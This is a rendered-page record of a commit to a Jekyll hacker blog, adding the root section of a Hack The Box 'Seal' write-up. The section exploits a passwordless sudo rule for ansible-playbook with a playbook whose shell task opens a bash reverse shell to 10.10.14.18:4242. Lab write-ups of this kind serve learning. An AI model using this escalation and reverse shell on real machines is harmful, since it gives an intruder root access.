

Before and after one commit to tocttou/hacker-blog, a Jekyll site: the page built from _posts/2022-09-05-Seal.md, in a window 1280 px wide and 900 px high, scrolled down 4032 px. Shown: the whole window, without its empty margins (105-1171 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 4543 px from its top, so only the background shows below that.

Commit message:
finish Seal

````diff
--- a/_posts/2022-09-05-Seal.md
+++ b/_posts/2022-09-05-Seal.md
@@ -168,3 +168,18 @@ ssh -i key.luis luis@seal.htb
 ```
 
 ## root
+
+To list the commands which user luis can run without password run: `sudo -l`.
+According to the result `(ALL) NOPASSWD: /usr/bin/ansible-playbook *` it seems like every user can run an ansible-playbook as root without a password.
+
+## ansible commands
+
+Looking around I found an [article](https://rioasmara.com/2022/03/21/ansible-playbook-weaponization/) whcich describes how to weaponize the ansible-playbook and build a reverse shell with it.
+
+```yml
+- hosts: localhost
+  tasks:
+  - name: rev
+    shell: bash -c 'bash -i >& /dev/tcp/10.10.14.18/4242 0>&1'
+```
+Run this .yml file with `sudo ansible-playbook run.yml` and start a listener on your maschine.
````
